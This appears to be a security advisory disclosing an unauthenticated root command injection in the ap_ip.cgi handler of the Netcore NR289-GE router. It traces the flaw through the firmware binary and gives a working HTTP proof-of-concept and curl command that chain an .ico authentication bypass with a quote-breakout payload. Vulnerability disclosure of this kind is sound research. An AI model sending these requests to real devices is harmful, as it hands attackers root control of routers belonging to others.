




# Netcore NR289-GE AC Router — Unauthenticated Command Injection in `ap_ip.cgi`

- Vendor: Netcore (磊科)
- Product: Netcore NR289-GE (SMB router / AC controller)
- Firmware Version: V1.4.5102 (2018.06.14, Linux 2.6.36, MIPS32r2 big-endian / RTL8198C+RTL8370)
- Vulnerability Type: OS Command Injection (CWE-78), reachable **without authentication** via the boa `.ico` whitelist flaw (see companion advisory *Netcore_NR289-GE_authentication_bypass*)

## Overview

`ap_ip.cgi` (handler `ap_ip_cgi` in `/web/cgi-bin/cgitest.cgi`) sets the IP configuration of a managed AP. The `ip` (and `mask`/`gateway`) form fields are copied into a shell command template with **no format validation** and executed via `system()`:

`POST /ap_ip.cgi` (authenticated) **or** `POST /<anything>.ico/ap_ip.cgi` (unauthenticated)

Precondition: the `mac` field's first 6 bytes must match an entry of the bound-AP list (`/tmp/para/bind_list_table`), i.e. the AC is managing at least one AP.

**Exploitation constraint:** the `ip` field is copied with a 20-byte `strncpy` into an unterminated stack buffer, so the usable payload budget is 19 characters (e.g. `";id>/tmp/p;#` is 12 and works; longer commands are truncated into the adjacent `mask` value and the shell command then dies on a syntax error). For full-length commands use the sibling endpoint `location_time.cgi` (no truncation), documented in the companion advisory.

## Vulnerability Details

Taint flow (instruction level; binary `cgitest.cgi`):







```
main             0x449d00  basename(argv[0]) -> "ap_ip.cgi" -> ap_ip_cgi (perm 255)
ap_ip_cgi        0x41aa74:
                 0x41aaf4  get_form_value("ip")      <- taint source, NO validation
                 0x41ab0c  strncpy(buf20, ip, 20)    <- truncated, unterminated
                 (also "mask" @0x41ab18, "gateway" @0x41aad0, "mac" @0x41ab44)
set_ap_ip        0x435d70  memcpy args, no checks
send_wget_set_command 0x4353c0 (code 0x300006):
                 0x4354bc  read_ap_bind_list()       -> /tmp/para/bind_list_table
                 0x4354cc  Find_existed_bind_ap(mac) -> memcmp(first 6 bytes)
                 0x4357d0  sprintf(cmd, "/bin/wget_1 ... --post-data \"mode_name=netcore_set
                            &conntype=0&lan_ip=%s&lan_mask=%s&default_gw=%s&CurrentApp=lan\"
                            \"http://%s/cgi-bin-igd/netcore_set.cgi\" > /tmp/status", ip, mask, gw, ap_ip)
                 0x435540  system(cmd)               <- sink
```

`lan_ip=%s` sits inside a double-quoted argument, so `";CMD;#` breaks out. Verified execution (strace capture) with `ip=";echo ok>/tmp/p;#`:

```
sh -c "/bin/wget_1 ... --post-data \"mode_name=netcore_set&conntype=0&lan_ip=\";echo ok>/tmp/p;#
&lan_mask=1&default_gw=1&CurrentApp=lan\" \"http://192.168.1.1/...\" > /tmp/status"
```

`/tmp/p` then contained `ok`.

## Proof of Concept

```http
POST /x.ico/ap_ip.cgi HTTP/1.1
Host: <target>
Content-Type: application/x-www-form-urlencoded

mac=AA%3ABB%3ACC%3ADD%3AEE%3AFF&ip=%22%3Becho%20ok%3E%2Ftmp%2Fp%3B%23&mask=1&gateway=1
```

(URL-decoded `ip`: `";echo ok>/tmp/p;#`; `mac` first 6 bytes must match a bound AP.)

## Impact

Unauthenticated remote command execution as **root** (payload length constrained to ~19 bytes on this endpoint; sufficient for file writes, config edits, and staging further payloads via multiple requests).

## Reproduction Result

Dynamically verified against the firmware emulated with qemu-mips (big-endian) + chroot, with a bound-AP entry mocked into `/tmp/para/bind_list_table`:



```
$ curl -X POST http://<target>/x.ico/ap_ip.cgi \
       --data-urlencode "mac=AA:BB:CC:DD:EE:FF" --data-urlencode 'ip=";echo ok>/tmp/p;#' \
       --data-urlencode "mask=1" --data-urlencode "gateway=1"
$ cat /tmp/p        # on the emulated target
ok
```
